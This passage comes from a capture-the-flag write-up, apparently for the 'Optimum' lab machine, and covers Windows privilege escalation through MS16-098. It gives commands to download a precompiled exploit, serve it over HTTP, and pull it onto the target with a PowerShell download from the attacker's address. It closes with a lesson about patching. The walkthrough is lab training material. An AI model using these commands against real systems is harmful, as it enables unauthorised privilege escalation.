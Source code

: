 ![Untitled](/medias/images/optimum/Untitled%2015.png)

The Windows OS seems to be vulnerable to many exploits! Let’s try MS16–098. In the [exploit database](https://www.exploit-db.com/exploits/41020), it gives you a link to a precompiled executable. Download the executable on the attack machine.

![Untitled](/medias/images/optimum/Untitled%2016.png)

```bash
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
```

Now we need to transfer it to the target machine. Start up an HTTP server on attack machine in the same directory that the executable file is in.

```bash
python2 -m SimpleHTTPServer 80
```

In target machine download the file in a directory you have write access to.

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.50/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"
```

![Untitled](/medias/images/optimum/Untitled%2017.png)

We have system! Grab the root flag.

![Untitled](/medias/images/optimum/Untitled%2018.png)

## Lesson Learned

Always update and patch your software! To gain both an initial foothold and escalate privileges, we leveraged publicly disclosed vulnerabilities that have security updates and patches available.